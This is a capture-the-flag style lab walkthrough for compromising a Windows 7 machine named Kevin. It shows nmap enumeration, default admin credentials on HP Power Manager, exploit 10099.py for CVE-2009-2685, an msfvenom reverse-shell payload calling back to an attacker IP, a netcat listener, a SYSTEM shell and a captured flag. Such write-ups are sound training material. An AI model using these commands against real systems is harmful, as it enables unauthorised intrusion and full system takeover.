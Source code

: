 # Kevin - Windows 7 Exploitation Walkthrough

This is a full exploitation walkthrough for the **Kevin** lab machine running Windows 7 Ultimate. The goal was to achieve SYSTEM-level access through web-based exploitation using a known vulnerability in HP Power Manager and capture the final flag.

## Target Information

**IP Address:** 192.168.232.45  
**Operating System:** Windows 7 Ultimate N  
**Hostname:** KEVIN  
**Workgroup:** WORKGROUP  
**Vulnerable Service:** HP Power Manager (GoAhead WebServer) on Port 80  

## Enumeration

Performed an initial Nmap scan:

```bash
nmap -T4 -A 192.168.232.45 -oN nmap
Identified open ports:

80 (HTTP - GoAhead WebServer)

135 (RPC)

139, 445 (SMB)

3389 (RDP)

49152–49159 (MSRPC dynamic ports)

Discovered login panel for HP Power Manager at http://192.168.232.45.

Used default credentials:

pgsql
Copy
Edit
admin : admin
Exploitation - HP Power Manager RCE
Searched for a known exploit:

bash
Copy
Edit
searchsploit HP Power Manager
searchsploit -m 10099.py
Vulnerability: CVE-2009-2685 (Remote Command Execution)

Reverse Shell Payload
Generated a custom reverse shell with msfvenom:

bash
Copy
Edit
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.158 LPORT=80 \
-b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" \
-e x86/alpha_mixed -f c
Injected the payload into the 10099.py exploit.

Gaining Access
Started a listener on the attack machine:

bash
Copy
Edit
rlwrap nc -nlvp 80
Executed the exploit:

bash
Copy
Edit
python2.7 10099.py 192.168.232.45
Gained a reverse shell as:

sql
Copy
Edit
NT AUTHORITY\SYSTEM
Flag
Navigated to:

makefile
Copy
Edit
C:\Users\Administrator\Desktop\proof.txt
Captured the flag:

nginx
Copy
Edit
f9267403b0baf51ae5c66c6d55fd72de
Tools Used
nmap

searchsploit

msfvenom

netcat (nc)

rlwrap

python2.7

Summary
Performed enumeration with Nmap to discover services

Identified vulnerable web interface using default credentials

Leveraged a known exploit (CVE-2009-2685) for RCE

Used a custom reverse shell to get SYSTEM access

Captured the administrator flag

Author
Farhanahmad Quraishi
